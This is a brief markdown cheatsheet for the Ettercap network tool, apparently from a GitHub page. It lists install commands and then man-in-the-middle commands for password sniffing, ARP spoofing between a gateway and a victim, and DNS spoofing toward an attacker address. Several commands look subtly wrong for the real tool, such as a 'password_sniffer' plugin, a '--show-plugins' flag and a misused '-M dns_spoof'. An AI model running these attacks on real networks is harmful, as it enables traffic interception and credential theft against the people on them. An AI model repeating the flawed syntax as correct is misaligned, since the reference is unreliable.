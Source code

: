 # Ettercap Cheatsheet

Ettercap is a network security tool that allows users to monitor and analyze network traffic, as well as perform man-in-the-middle attacks. This cheatsheet provides a quick reference guide for using Ettercap.

## Installation

Ettercap can be installed on Linux-based operating systems using the following command:

```bash
sudo apt-get install ettercap-graphical
```

## Starting Ettercap

Ettercap can be started with the following command:

```bash
sudo ettercap -G
```

## Capturing Packets

To capture packets on a specific network interface, use the following command:

```bash
sudo ettercap -T <interface>
```

## Sniffing Passwords

To sniff passwords on a network, use the following command:

```bash
sudo ettercap -T -P password_sniffer -i <interface>
```

## ARP Spoofing

To perform ARP spoofing on a network, use the following command:

```bash
sudo ettercap -T -M arp:remote /<gateway ip>// /<victim ip>//
```

## DNS Spoofing

To perform DNS spoofing on a network, use the following command:

```bash
sudo ettercap -T -M dns_spoof /<target site>// /<ip address of attacker>//
```

## Plugins

Ettercap has various plugins that can be used to extend its functionality. To view the available plugins, use the following command:

```bash
ettercap --show-plugins
```

To use a specific plugin, use the following command:

```bash
sudo ettercap -T -M <plugin_name> /<gateway ip>// /<victim ip>//
```

## Additional Resources

- [Official Ettercap Website](https://ettercap.github.io/ettercap/)
- [Ettercap User Manual](https://ettercap.github.io/ettercap/downloads/EttercapUserManual.pdf)
- [Ettercap Wiki](https://github.com/Ettercap/ettercap/wiki)
